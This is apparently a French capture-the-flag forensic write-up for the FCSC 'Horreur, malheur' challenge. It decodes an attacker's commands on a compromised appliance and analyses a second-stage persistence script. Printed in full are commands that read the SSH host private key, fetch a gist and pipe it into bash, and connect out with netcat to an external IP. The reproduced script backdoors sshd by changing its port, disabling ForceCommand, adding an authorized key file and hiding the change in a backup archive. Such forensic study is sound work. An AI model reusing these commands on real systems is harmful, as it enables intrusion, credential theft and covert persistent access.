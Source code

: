 ```shell
$ python3 decode.py
id
ls /
echo FCSC{6cd63919125687a10d32c4c8dd87a5d0c8815409}
cat /data/runtime/etc/ssh/ssh_host_rsa_key
/home/bin/curl -k -s https://api.github.com/repos/joke-finished/2e18773e7735910db0e1ad9fc2a100a4/commits?per_page=50 -o /tmp/a
cat /tmp/a | grep "name" | /pkg/uniq | cut -d ":" -f 2 | cut -d '"' -f 2 | tr -d '\n' | grep -o . | tac | tr -d '\n'  > /tmp/b
a=`cat /tmp/b`;b=${a:4:32};c="https://api.github.com/gists/${b}";/home/bin/curl -k -s ${c} | grep 'raw_url' | cut -d '"' -f 4 > /tmp/c
c=`cat /tmp/c`;/home/bin/curl -k ${c} -s | bash
rm /tmp/a /tmp/b /tmp/c
nc 146.0.228.66:1337
```
```diff
+ FCSC{6cd63919125687a10d32c4c8dd87a5d0c8815409}
```

## Horreur, malheur 4/5 - Pas si simple persistance


>Vous remarquez qu’une fonctionnalité built-in de votre équipement ne fonctionne plus et vous vous demandez si l’attaquant n’a pas utilisé la première persistance pour en installer une seconde, moins “visible”…
>
>Vous cherchez les caractéristiques de cette seconde persistance : protocole utilisé, port utilisé, chemin vers le fichier de configuration qui a été modifié, chemin vers le fichier qui a été modifié afin d’établir la persistance.
>> Le flag est au format : FCSC{<protocole>:<port>:<absolute_path_edited_conf>:<absolute_path_edited_file_persistence>}

    
On continue notre investigation, on recrée localement le contenu des variables "a" ,"b", "c" en prenant soin de ne pas exécuter de payload malveillant sur notre machine

```shell
$ cat a b c
degbf1b75ea202a92df5b9f151535b7f19fez4x
f1b75ea202a92df5b9f151535b7f19fe
https://gist.githubusercontent.com/joke-finished/f1b75ea202a92df5b9f151535b7f19fe/raw/ae0bca6e36064e1c810aa55960a6e30b94f64fca/gistfile1.txt
```
On télécharge le gistfile et on analyse
```python
$ cat gistfile1.txt 
#Change le port dans le fichier de configuration du serveur ssh
sed -i 's/port 830/port 1337/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
##Désactive l'éxecution automatique d'une commande lors d'une connexion ssh (désactive une mesure de sécurité)
sed -i 's/ForceCommand/#ForceCommand/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
##Active l'authentification par clé publique
echo "PubkeyAuthentication yes" >> /data/runtime/etc/ssh/sshd_server_config
##Ajoute un fichier de clés autorisés
echo "AuthorizedKeysFile /data/runtime/etc/ssh/ssh_host_rsa_key.pub" >> /data/runtime/etc/ssh/sshd_server_config
##Tue le démon sshd
pkill sshd-ive > /dev/null 2>&1
##Décompresse un fichier de backup
gzip -d /data/pkg/data-backup.tgz > /dev/null 2>&1
##Ajoute le fichier de configuration modifié à l'archive 
tar -rf /data/pkg/data-backup.tar /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
##Compresse l'archive
gzip /data/pkg/data-backup.tar > /dev/null 2>&1
##Remplace le fichier de backup
mv /data/pkg/data-backup.tar.gz /data/pkg/data-backup.tgz > /dev/null 2>&1
```
